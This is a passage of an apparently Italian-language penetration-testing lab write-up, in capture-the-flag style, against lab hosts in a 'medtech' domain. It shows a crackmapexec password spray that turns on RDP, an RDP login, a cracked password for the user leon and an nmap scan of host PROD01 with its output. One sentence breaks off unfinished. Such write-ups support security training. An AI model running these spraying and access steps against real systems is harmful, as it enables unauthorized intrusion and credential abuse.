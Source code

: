 Lancio questo comando per capire se ho la possibilità di entrare tramite rdp su questa macchina:

```bash
sudo crackmapexec smb 172.16.220.12 -u user.txt -p passwords.txt -M rdp -o ACTION=enable --continue-on-success
```

Scopro che l'utente yoshi può connettersi tramite rdp:

```bash
xfreerdp /u:yoshi /d:medtech.com  /v:172.16.220.12 
```

Sul desktop dell'user yoshi trovo la flag local.txt.

C'è un file backup.exe sul quale eseguire ...

Qui trovo la vera password di leon:

```bash
leon:rabbit:)
```


# 172.16.184.13 - PROD01 {pwned:proof}

```bash
nmap -sC -sV -O -p- 172.16.184.13
```

```bash
Nmap scan report for 172.16.184.13 (172.16.184.13)
Host is up (0.033s latency).
Not shown: 65523 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.11.X|2.1.X (85%)
OS CPE: cpe:/o:ibm:zos:1.11 cpe:/o:ibm:zos:2.1
Aggressive OS guesses: IBM z/OS 1.11 (85%), IBM z/OS 2.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: PROD01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:29:ec (VMware)
| smb2-time: 
|   date: 2024-05-18T11:25:44
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 2s
```